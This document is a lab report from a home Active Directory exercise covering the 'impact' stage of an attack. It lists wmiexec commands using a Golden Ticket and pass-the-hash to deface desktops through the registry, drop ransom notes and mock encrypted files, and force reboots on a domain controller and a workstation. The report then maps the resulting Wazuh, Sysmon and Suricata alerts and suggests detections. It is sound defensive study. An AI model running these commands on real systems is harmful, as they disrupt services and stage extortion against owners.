# Stage 20 — Impact

> **Status:** Complete — evidence attached  
> **Case:** [Case 03](../../04-Investigation/Cases/case-03-domain-compromise.md)  
> **Investigation:** [Stage 20](../../04-Investigation/Stages/stage-20-impact.md)  
> **Evidence:** [attack](../Attack-Screenshots/58.5.png) · [alert](../../03-Detection-Engineering/TheHive_Alert-ScreenShot/21.png)

## Objective

Demonstrate complete domain-wide operational impact through internal defacement, simulated ransomware data encryption, extortion note deployment, and forced service interruption across both the primary Domain Controller (`PC-DC`) and the Windows 10 enterprise workstation (`Win10`).

## Commands

```bash
# === 1. Stage Defacement Artifact from Kali to DVWA Pivot ===
scp /home/kali/hacked.bmp root@192.168.56.30:/tmp/hacked.bmp

# === 2. Impact Execution on Domain Controller (PC-DC.ad.lab) via Golden Ticket ===
# Connect via wmiexec using forged Kerberos ticket
python3 /usr/local/bin/wmiexec.py -k -no-pass ad.lab/Administrator@PC-DC.ad.lab

# Upload defacement wallpaper to DC temporary directory
lput /tmp/hacked.bmp C:\Windows\Temp\

# Copy wallpaper to globally readable public directory
cmd /c "copy C:\Windows\Temp\hacked.bmp C:\Users\Public\hacked.bmp"

# Enforce defacement wallpaper across active user sessions via registry modification
cmd /c "reg add \"HKCU\Control Panel\Desktop\" /v Wallpaper /t REG_SZ /d C:\Users\Public\hacked.bmp /f"
cmd /c "reg add \"HKCU\Control Panel\Desktop\" /v WallpaperStyle /t REG_SZ /d 2 /f"

# Drop extortion ransom note on Administrator desktop
cmd /c "echo YOU HAVE BEEN HACKED. Contact: eclipse@manic ^| eclipsemanic.me > C:\Users\Administrator\Desktop\README_HACKED.txt"

# Simulate ransomware encryption by replacing targets with encrypted mock data
cmd /c "echo ENCRYPTED_DATA_XOR_KEY_7f3a9b > C:\Users\Administrator\Desktop\documents.enc"
cmd /c "echo ENCRYPTED_DATA_XOR_KEY_7f3a9b > C:\Users\Administrator\Desktop\passwords.enc"

# Force immediate system reboot to apply wallpaper changes and disrupt DC operations
cmd /c "shutdown /r /t 0"
exit

# === 3. Impact Execution on Windows 10 Workstation (192.168.56.20) via Pass-the-Hash ===
# Connect via wmiexec using Administrator NTLM hash
python3 /usr/local/bin/wmiexec.py -hashes aad3b***ee:cc814***9fb Administrator@192.168.56.20

# Upload defacement wallpaper to workstation temporary directory
lput /tmp/hacked.bmp C:\Windows\Temp\

# Copy wallpaper to public directory
cmd /c "copy C:\Windows\Temp\hacked.bmp C:\Users\Public\hacked.bmp"

# Enforce defacement wallpaper via registry keys
cmd /c "reg add \"HKCU\Control Panel\Desktop\" /v Wallpaper /t REG_SZ /d C:\Users\Public\hacked.bmp /f"
cmd /c "reg add \"HKCU\Control Panel\Desktop\" /v WallpaperStyle /t REG_SZ /d 2 /f"

# Drop extortion ransom note on user desktop
cmd /c "echo YOU HAVE BEEN HACKED. Contact: eclipse@manic ^| eclipsemanic.me > C:\Users\win10\Desktop\README_HACKED.txt"

# Simulate ransomware encryption by writing mock encrypted files
cmd /c "echo ENCRYPTED_DATA_XOR_KEY_7f3a9b > C:\Users\win10\Desktop\documents.enc"
cmd /c "echo ENCRYPTED_DATA_XOR_KEY_7f3a9b > C:\Users\win10\Desktop\passwords.enc"

# Force immediate workstation reboot to apply defacement and terminate user sessions
cmd /c "shutdown /r /t 0"
exit
```

## What happened

In the culminating stage of the attack campaign, the adversary transitioned from espionage and data theft to active, visible impact. The goal was to prove comprehensive control over both server infrastructure and client endpoints by simulating a coordinated ransomware and extortion campaign.

The operation commenced by staging a high-resolution defacement image (`hacked.bmp`, 4.6 MB) from the Kali attacker workstation to `/tmp/hacked.bmp` on the DVWA pivot server over SCP.

### Impact on the Domain Controller (`PC-DC.ad.lab`)

Connecting to the Domain Controller using the forged Golden Ticket from Stage 16, the adversary uploaded `hacked.bmp` to `C:\Windows\Temp\` and copied it into `C:\Users\Public\hacked.bmp`. Using `reg.exe add`, the attacker modified the current user desktop configuration within `HKCU\Control Panel\Desktop`, setting `Wallpaper` to the uploaded image and configuring `WallpaperStyle` to `2` (stretched).

To simulate extortion, the attacker generated a ransom note at `C:\Users\Administrator\Desktop\README_HACKED.txt` with the text:
```text
YOU HAVE BEEN HACKED. Contact: eclipse@manic | eclipsemanic.me
```
To simulate ransomware encryption of local documents and credentials, the attacker wrote encrypted mock data (`ENCRYPTED_DATA_XOR_KEY_7f3a9b`) into `documents.enc` and `passwords.enc` directly on the desktop. The attacker then executed `cmd /c "shutdown /r /t 0"`, abruptly terminating domain services and forcing the Domain Controller to reboot. Upon rebooting, the Windows Server 2022 desktop displayed the custom defacement wallpaper ("EclipseManic — YOU GOT HACKED") alongside the ransom note and encrypted files.

### Impact on the Windows 10 Workstation (`Win10.ad.lab`)

Simultaneously, the attacker accessed the Windows 10 client workstation (`192.168.56.20`) via Pass-the-Hash with the compromised `Administrator` NTLM hash. Mirroring the DC attack chain, the adversary uploaded `hacked.bmp`, copied it to `C:\Users\Public\hacked.bmp`, modified the desktop wallpaper registry keys, deposited `README_HACKED.txt` along with `documents.enc` and `passwords.enc` on `C:\Users\win10\Desktop`, and issued `shutdown /r /t 0`.

When the Windows 10 machine rebooted, the user session was presented with the identical defacement wallpaper, the ransom notification, and encrypted mock files. Opening the files in Notepad confirmed the extortion payload and mock encryption signatures.

## Evidence

### Attack Execution & Verification Screenshots


*Figure 20.1: Staging `hacked.bmp` from Kali machine to DVWA pivot host `/tmp` directory via SCP.*


*Figure 20.2: Remote execution on PC-DC via Golden Ticket wmiexec modifying registry keys, dropping ransom note, and triggering shutdown.*


*Figure 20.3: Domain Controller desktop post-reboot showing "EclipseManic — YOU GOT HACKED" wallpaper, README_HACKED.txt, and .enc files.*


*Figure 20.4: Remote execution on Win10 workstation via Pass-the-Hash wmiexec deploying defacement wallpaper and ransom notes.*


*Figure 20.5: Windows 10 workstation desktop post-reboot displaying the defacement background and desktop ransom artifacts.*


*Figure 20.6: Notepad showing the contents of README_HACKED.txt, documents.enc, and passwords.enc.*

### Detection & Alert Screenshots


*Figure 20.7: TheHive Alert 20 capturing root SSH logon on DVWA during defacement image staging.*


*Figure 20.8: TheHive dashboard showing correlated alerts on PC-DC for process execution and registry modification.*


*Figure 20.9: Wazuh Sysmon Rule 100613 alert on PC-DC recording registry changes, ransom note generation, and shutdown command.*


*Figure 20.10: Wazuh Sysmon Rule 92041 detecting `reg.exe` modifying `HKCU\Control Panel\Desktop\Wallpaper` on PC-DC.*


*Figure 20.11: Wazuh Sysmon Rule 92041 detecting modification of `WallpaperStyle` on PC-DC.*


*Figure 20.12: TheHive dashboard showing alerts on Win10 alongside network-level Suricata NTLM session detection.*


*Figure 20.13: Wazuh Sysmon Rule 100613 alert on Win10 recording registry manipulation, extortion notes, and shutdown invocation.*


*Figure 20.14: Suricata Rule 86601 alerts capturing NTLM Session Setup Negotiate, Challenge, and Auth flows from pivot to Win10.*


*Figure 20.15: Wazuh Sysmon Rule 92041 alert on Win10 capturing `reg.exe` setting wallpaper to `hacked.bmp`.*


*Figure 20.16: Wazuh Sysmon Rule 92041 alert on Win10 capturing `reg.exe` modifying `WallpaperStyle`.*

## Alert observed

Stage 20 generated a massive, high-fidelity alert burst spanning network intrusion detection (Suricata), host behavioral monitoring (Sysmon/Wazuh), and incident management (TheHive).

| Source | Rule / Event Description | Rule ID | TheHive Alert Title | Severity | Status |
|---|---|---|---|---|---|
| Wazuh / Linux SSH | sshd: authentication success (staging `hacked.bmp`) | 5715 | `[2x] [DVWA] Logon activity: ROOT @ 192.168.232.135` | Medium (2) | Detected |
| Wazuh / Sysmon | Impacket wmiexec fan-out on PC-DC (registry, ransom notes, shutdown) | 100613 | `[FANOUT x9] [DomainWin10] parent PID 4432` | Medium (2) | Detected |
| Wazuh / Sysmon | Value added to registry key has Base64-like pattern (Wallpaper on PC-DC) | 92041 | `[FANOUT x1] [DomainWin10] parent PID 6500` | Medium (2) | Detected |
| Wazuh / Sysmon | Value added to registry key has Base64-like pattern (WallpaperStyle on PC-DC) | 92041 | `[FANOUT x1] [DomainWin10] parent PID 4980` | Medium (2) | Detected |
| Suricata IDS | ET INFO NTLM Session Setup Request / Response (Flow: 56.30 -> 56.20:445) | 86601 | `[3x] [Suricata] Suricata: Alert - ET INFO NTLM...` | Medium (2) | Detected |
| Wazuh / Sysmon | Impacket wmiexec fan-out on Win10 (registry, ransom notes, shutdown) | 100613 | `[FANOUT x9] [Win10User] parent PID 4008` | Medium (2) | Detected |
| Wazuh / Sysmon | Value added to registry key has Base64-like pattern (Wallpaper on Win10) | 92041 | `[FANOUT x1] [Win10User] parent PID 1724` | Medium (2) | Detected |
| Wazuh / Sysmon | Value added to registry key has Base64-like pattern (WallpaperStyle on Win10) | 92041 | `[FANOUT x1] [Win10User] parent PID 3880` | Medium (2) | Detected |

> [!IMPORTANT]
> **Heavy Alerting Observed:** Every component of the impact stage triggered actionable telemetry. Sysmon process tracking caught the Impacket shell pipelines (Rule 100613); Sysmon registry event tracking caught the wallpaper alterations (Rule 92041); and Suricata captured the SMB NTLM handshake (Rule 86601) as the attacker moved laterally from DVWA to the Windows 10 workstation.

## MITRE ATT&CK

| Tactic | Technique | Sub-technique | ID |
|---|---|---|---|
| Impact | Defacement | Internal Defacement | T1491.001 |
| Impact | Data Encrypted for Impact | | T1486 |
| Impact | System Shutdown/Reboot | | T1529 |
| Defense Evasion | Modify Registry | | T1112 |
| Execution | Windows Management Instrumentation | | T1047 |
| Lateral Movement | Use Alternate Authentication Material | Pass the Hash | T1550.002 |

## Detection opportunities

- **Desktop Wallpaper Registry Tampering:** Monitor Sysmon Event IDs 12/13 (Registry Create/Set) targeting `\Control Panel\Desktop\Wallpaper` and `\Control Panel\Desktop\WallpaperStyle` when modified by non-standard parent processes or scripts.
- **Ransomware Note File Creation:** Alert on File Create events (Sysmon Event ID 11) for common ransom note names (`README_*.txt`, `HOW_TO_DECRYPT*`, `DECRYPT_INFO*`) or sudden bursts of files with encrypted extensions (`.enc`, `.locked`, `.crypto`) on user desktop directories.
- **Abrupt Administrative Shutdown / Reboot:** Alert on process creation (Event ID 4688 / Sysmon Event ID 1) invoking `shutdown.exe` with flags `/r` or `/s` and `/t 0` originating from remote management services (`WmiPrvSE.exe`, `services.exe`).
- **Network SMB Authentication Spikes:** Correlate Suricata NTLM session alerts (Rule 86601) with endpoint file creation events in public directories (`C:\Users\Public\`) within 60 seconds.

## Notes

- **Affected Systems:**
  - `PC-DC.ad.lab` — Windows Server 2022 Domain Controller (`192.168.56.10`)
  - `Win10.ad.lab` — Windows 10 Enterprise Workstation (`192.168.56.20`)
- **Staging Intermediate Host:** DVWA Linux Server (`192.168.56.30`)
- **Impact Artifacts Created:**
  - `C:\Users\Public\hacked.bmp` (Defacement graphic)
  - `README_HACKED.txt` (`YOU HAVE BEEN HACKED. Contact: eclipse@manic | eclipsemanic.me`)
  - `documents.enc` & `passwords.enc` (`ENCRYPTED_DATA_XOR_KEY_7f3a9b`)
- **Recovery and Remediation:**
  - Isolate both systems from the network immediately.
  - Revert the virtual machine state of both `PC-DC` and `Win10` from clean offline snapshots.
